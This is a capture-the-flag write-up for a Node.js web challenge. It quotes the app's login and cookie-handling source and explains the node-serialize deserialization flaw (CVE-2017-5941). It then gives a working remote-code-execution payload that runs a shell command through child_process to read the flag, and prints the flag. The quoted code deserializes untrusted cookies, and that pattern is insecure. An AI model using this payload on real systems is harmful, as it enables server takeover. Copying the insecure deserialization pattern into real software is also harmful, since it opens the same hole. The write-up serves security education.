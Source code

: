 # Hacky_Holidays_Airlines Web (100) 

## Challenge Description
We are given a website which runs node js code on the backend, and only has sign up and login functionalities.
## Challenge Files
After signing up and logging in, the user's data is serialized and base 64 encoded to form the cookie using **'node-serialize' module**.

```
const db = require("../models");
const bcrypt = require("bcryptjs");
var serialize = require('node-serialize');
var escape = require('escape-html');


module.exports = (app, globalConfig) => {    
    app.get('/login', (req, res) => {
        res.render('login', {title: 'Login' });
    })
    app.post("/login", (req, res) => {
        let username = req.body.username;
        let password = req.body.password;
        if (username && password) {
            db.Users.findAll({
                where: {
                    username: username,
                },
            }).then((results) => {
                if (results.length > 0) {
                    if (
                        bcrypt.compareSync(password, results[0].dataValues.hash)
                    ) {
                        res.clearCookie('session');
                        var userInfo = {
                            "id":results[0].id,
                            "username":req.body.username,
                            "country":results[0].country
                        };
                        var cookieGen = serialize.serialize(userInfo, true);
                        var cookieValue = new Buffer(cookieGen, 'utf-8').toString('base64');
                        res.cookie('session', cookieValue, {
                            maxAge: 900000,
                            httpOnly: true,
                        });
                        res.redirect("/");
                    } else {
                        res.render("errors", {
                            error: "Incorrect username or password",
                        });                        
                    }
                } else {
                    res.render("errors", {
                        error: "Incorrect username or password",
                    });
                }
            });
        } else {
            res.render("errors", {
                error: "Empty fields",
            });
        }
    });
};
```

Once logged in, the cookie is decoded and deserialized to retrieve the username of the user.
```
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');

module.exports = (app, globalConfig) => {
    app.use(cookieParser())
    app.get('/', function(req, res) {
      if (req.cookies.session){
        authorized = true;
        var cookieValue = new Buffer(escape((req.cookies.session)), 'base64').toString();
        var userInfo = serialize.unserialize(cookieValue);
        if (userInfo.username) {
          res.render('index', { title: 'Home', username: userInfo.username , authorized: authorized});
        }
        } else {
        authorized = false;
        res.render('index', { title: 'Home', authorized: authorized });
      }
    });
};
```

## Solution
Searching the web for node js deserialization vulnurabilities led me to (CVE-2017-5941) and blogposts (https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/), (https://blog.websecurify.com/2017/02/hacking-node-serialize.html). The vulnurability comes internally as the deserialization process utilises eval(), source code:(https://github.com/luin/serialize/blob/c82e7c3c7e802002ae794162508ee930f4506842/lib/serialize.js#L76).

Attemped to spawn a spawn a reverse shell without success. Then tried to read flag directly as user input is reflected on the website.

## Payload

```
{"id":"1658671155127.0","username":"_$$ND_FUNC$$_function (){\n var a =require('child_process').execSync(\"cat ./flag\", function puts(error, stdout, stderr) {});\n return a;}()","country":"test"}
```

## Flag
```
CTF{45e_r34LLy_und3rst00d_7h3_pr0bl3m}
```

